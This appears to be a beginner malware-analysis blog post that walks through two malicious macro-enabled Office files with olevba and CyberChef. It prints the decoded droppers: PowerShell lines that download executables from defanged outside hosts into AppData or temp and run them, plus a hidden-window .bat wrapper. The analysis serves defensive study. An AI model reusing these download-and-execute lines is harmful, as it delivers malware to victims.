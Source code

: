 ```yaml
---
layout: post
title: "Analyzing Macro enabled Office Documents"
image: "/images/msofficemacros/cover.png"
description: "Learn how to analyze MS Office Macro enabled Documents, a step-by-step guide to identifying and reversing malicious macros, and how to use olevba and cyberchef to decode and analyze the macro code. Analyzing Macro enabled Office Documents, a comprehensive guide to malware analysis, reverse engineering, and forensic investigations."
keywords: "Malware-Analysis, Reverse-Engineering, Macro enabled Office Documents, Office Document Analysis, Cyber 5W, Malware Analysis, Reverse Engineering, Gafgyt Backdoor Analysis, JavaScript Deobfuscation Techniques, Hard disk structure and analysis"
tags: [Malware-Analysis, Reverse-Engineering, Macro enabled Office Documents, Office Document Analysis, Cyber 5W, Malware Analysis, Reverse Engineering, Gafgyt Backdoor Analysis, JavaScript Deobfuscation Techniques, Hard disk structure and analysis] 
---
```

Experience Level required: beginner 

# Objectives

In this blog we will Learn how to analyze MS Office Macro enabled Documents.

{% highlight text %}
1st sample:
    8d15fadf25887c2c974e521914bb7cba762a8f03b1c97a2bc8198e9fb94d45a5
2nd sample:
    a9f8b7b65e972545591683213bb198c1767424423ecc8269833f6e784aa8bc99
{% endhighlight %}

# 1st Sample

Let's see the sample in Virus Total

![](/images/msofficemacros/image2.jpg)

37 of 63 security vendors detected this file as malicious. 

Let's open the file.

![](/images/msofficemacros/image1.jpg)

It uses a social engineering technique to persuade the user to enable the macros that lead to the infection of the user.

Let's see the macro code of the sample, I'll use olevba

{% highlight text %}
olevba "C:\Users\M4lcode\Desktop\xlm sample\8d15fadf25887c2c974e521914bb7cba762a8f03b1c97a2bc8198e9fb94d45a5.xlsm"
{% endhighlight %}
![](/images/msofficemacros/image3.jpg)

It has many suspicious functions, It also has base64 strings

![](/images/msofficemacros/image7.jpg)

Let's dump the macro code to a file to see it better

{% highlight text %}
olevba -c "C:\Users\M4lcode\Desktop\xlm sample\8d15fadf25887c2c974e521914bb7cba762a8f03b1c97a2bc8198e9fb94d45a5.xlsm" > dump.vba
{% endhighlight %}
Let's view the dumped file with notepad ++ (you can view it with any text editor software)

![](/images/msofficemacros/image4.jpg)

This function concatenates two strings, then reverses the result string and assigns it to **Prefix3**.

![](/images/msofficemacros/image5.jpg)

I'll use this python script to reverse the string

{% highlight text %}
def reverse_string(input_string):
    return input_string[::-1]

input_string = "cne- 1 niw- exe.llehsrewop\\0.1v\\llehSrewoPswodniW\\23metsyS\\swodniW\:C"
reversed_string = reverse_string(input_string)
print("Original string:", input_string)
print("Reversed string:", reversed_string)
{% endhighlight %}

![](/images/msofficemacros/image6.jpg)

**Prefix3** =
{% highlight text %}
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -win 1 -enc
{% endhighlight %}
Let's go to the next function

The function concatenates 8 base64 encoded strings and assigns it to **Prefix2**.

![](/images/msofficemacros/image8.jpg)

I'll use cyberchef to decode the strings

![](/images/msofficemacros/image9.jpg)

**Prefix2** =
{% highlight text %}
$ProcName = "Ktaqftbffhqhoxzyblssi.exe";
(New-Object System.Net.WebClient).DownloadFile("hxxps[://]www[.]qqqformula[.]co[.]za/works/RICH[.]pif","$env:APPDATA\$ProcName");
Start-Process ("$env:APPDATA\$ProcName")
{% endhighlight %}

Let's go to the next function

![](/images/msofficemacros/image10.jpg)

It concatenates strings

**Prefix1** =
{% highlight text %}
start /MIN
{% endhighlight %}

Let's go to the last function

![](/images/msofficemacros/image11.jpg)

It concatenates **Prefix1**, **Prefix3** and **Prefix2** and print the result in a .bat file named "Bixkcozkkemqyslgmpvwuri.bat" then it runs the file

The resulted .bat file will be:
{% highlight text %}
start /MIN C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe  - win 1  - enc $ProcName = "Ktaqftbffhqhoxzyblssi.exe";
(New - Object System.Net.WebClient).DownloadFile("hxxps[://]www[.]qqqformula[.]co[.]za/works/RICH[.]pif", "$env:APPDATA\$ProcName");
Start - Process ("$env:APPDATA\$ProcName")
{% endhighlight %}

This script runs powershell script to download file from "hxxps[://]www[.]qqqformula[.]co[.]za/works/RICH[.]pif" to the current user's AppData directory with name "Ktaqftbffhqhoxzyblssi.exe" and executes it.

# 2nd Sample

32 of 60 security vendors detected this file as malicious.

![](/images/msofficemacros/image12.jpg)

Let's open the sample

![](/images/msofficemacros/image13.jpg)

It also employs a social engineering technique to convince the user to enable macros, which then leads to the user being infected.

Let's see its macro code

{% highlight text %}
olevba C:\Users\M4lcode\Desktop\ee6d2f06ce4476370cb830acb3890dca.xls
{% endhighlight %}

![](/images/msofficemacros/image14.jpg)

It uses **wscript** language and base64 encoding

Let's dump it to file
{% highlight text %}
olevba -c C:\Users\M4lcode\Desktop\ee6d2f06ce4476370cb830acb3890dca.xls > dump.vba
{% endhighlight %}
![](/images/msofficemacros/image15.jpg)

Let's try to decode this strings

![](/images/msofficemacros/image16.jpg)

{% highlight ps1 %}

$fdsfsdf = "fsfdghfddfgh";
(NEw-objEct `N`e`T`.`W`e`B`C`l`i`e`N`T`).DownLoAdfIlE('hxxp[://]suyashcollegeofnursing[.]com/language/Don163/CryptedFile163[.]exe', "$ENv:temp\jfcbvept.exe");
Start "$ENv:temp\jfcbvept.exe";
\$fdsfsdf = "fsfdghfddfgh";

{% endhighlight %}
This powershell script is downloading a file from "hxxp[://]suyashcollegeofnursing[.]com" to **temp** directory with name "jfcbvept.exe" then it starts it

CreateObject("Wscript.Shell") return is assigned to **zKShMevSa**

![](/images/msofficemacros/image17.jpg)

So **zKShMevSa** acts like **Wscript.Shell** and **zKShMevSa**.Run = Wscript.Shell.Run.

It's clear now **Wscript.Shell.Run** executes the powershell script that downloads the malware from "hxxp[://]suyashcollegeofnursing[.]com" to **temp** directory with name "jfcbvept.exe" then it executes it.

This blog is authored by **Mostafa Farghaly(M4lcode)**.
